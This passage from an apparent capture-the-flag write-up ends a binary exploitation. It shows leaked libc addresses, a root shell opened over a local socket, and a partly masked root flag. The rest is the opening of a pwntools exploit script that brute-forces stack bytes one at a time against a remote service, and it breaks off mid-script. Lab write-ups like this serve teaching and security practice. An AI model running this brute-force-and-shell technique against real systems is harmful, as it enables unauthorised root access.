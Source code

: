 ```
    dup2:               0x00007fea834b99a0
    execve:             0x00007fea8348de30
    binsh:              0x00007fea8355ce9a
[*] Sending shell exploit
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)

```

And grab `root.txt`:

```

$ cat root.txt
1c773343************************

```

The full exploit source code is:

```

#!/usr/bin/env python3

import sys
import time
from pwn import *
import pdb

def get_next_byte(s, r):

    for i in r:
        p = remote(host,port)
        p.recvuntil("Please enter the message you want to send to admin:\n")
        try:
            p.send(s + i.to_bytes(1,'big'))
            p.recvuntil('Done.', timeout=2)
            p.close()
            return i.to_bytes(1,'big')
        except EOFError:
            p.close()
    import pdb
    pdb.set_trace()
    print("Failed to find byte")

def brute_word(buff, num_bytes, obj, assumed=b''):

    start = time.time()
    result = assumed
    with log.progress(f'Brute forcing {obj}') as p:
        for i in range(num_bytes):
            current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
            p.status(f'Found {len(result)} bytes: {current}')
            byte = None
            context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
            while byte == None:          # If no byte found, over range again
                byte = get_next_byte(buff + result, range(0,255))
            result = result + byte
            context.log_level = 'info'   # Re-enable logging
        p.success(f'Finished in {time.time() - start:.2f} seconds')

    log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
```